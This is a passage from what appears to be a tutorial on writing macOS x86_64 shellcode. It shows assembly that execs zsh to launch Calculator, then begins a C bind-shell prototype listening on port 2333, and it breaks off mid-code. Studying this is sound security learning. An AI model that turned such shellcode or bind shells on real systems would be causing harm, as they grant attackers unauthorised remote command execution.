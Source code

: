 ```nasm
    xor     rdx, rdx        ; rdx=0

    push    rdx
    mov     rdi, '/bin/zsh'
    push    rdx
    push    rdi
    push    rsp
    pop     rdi             ; rdi='/bin/zsh'

    mov     rbx, '-c'
    push    rdx
    push    rbx
    push    rsp
    pop     rbx             ; rbx='-c'

    ; open /System/Applications/Calculator.app
    ; open /Sy stem/App lication s/Calcul ator.app
    push    rdx
    mov     rcx, 'ator.app'
    push    rcx
    mov     rcx, 's/Calcul'
    push    rcx
    mov     rcx, 'lication'
    push    rcx
    mov     rcx, 'stem/App'
    push    rcx
    mov     rcx, 'open /Sy'
    push    rcx
    push    rsp
    pop     rcx

    push    rdx
    push    rcx
    push    rbx
    push    rdi
    push    rsp
    pop     rsi             ; rsi=['/bin/zsh', '-c', 'open /System/Applications/Calculator.app']
    
    syscall                 ; rax=execve rdi='/bin/zsh' rsi=['/bin/zsh', '-c', 'open /System/Applications/Calculator.app'] rdx=0
```

### Bind Shell

To begin, I will use clang to implement the shell-binding logic, as it clarifies my thought process:

```c
//  clang -arch x86_64  bindshell.c -o bindshell
#include <unistd.h>
#include <sys/socket.h>
#include <netinet/in.h>

int main(void)
{
    int srvfd;
    srvfd = socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

    struct sockaddr_in srv;
    srv.sin_family = AF_INET;
    srv.sin_port = 2333;
    srv.sin_addr.s_addr = INADDR_ANY;

    bind(srvfd, (struct sockaddr *)&srv, sizeof(srv));
```
